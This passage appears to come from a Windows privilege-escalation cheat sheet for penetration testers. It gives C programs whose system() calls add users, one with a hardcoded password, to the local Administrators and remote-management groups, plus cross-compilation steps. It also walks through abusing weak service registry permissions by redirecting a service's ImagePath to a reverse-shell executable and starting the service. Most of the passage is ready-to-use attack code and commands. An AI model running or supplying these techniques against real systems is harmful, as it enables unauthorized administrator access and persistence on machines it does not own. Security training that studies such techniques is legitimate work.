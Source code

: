 #### Add Existing User to Local-Admin :

```c
#include <stdlib.h>

int main() {
    int i;
    i = system("net localgroup administrators <username> /add");
    return 0;
}
```
#### Cross Compilation:
```powershell
# x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### Weak Registry Permissions

```powershell
#Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have full access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#Service Information from regedit, identify the variable which holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Imagepath is the variable here

net start <service>
```

#### Add New User as Local Admin and have RDP access
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  i = system ("net localgroup 'Remote Management Users' dave2 /add");
  
  return 0;
}
```
#### Powershell Script that Add user to Local Admin [powershelladduser.ps1]
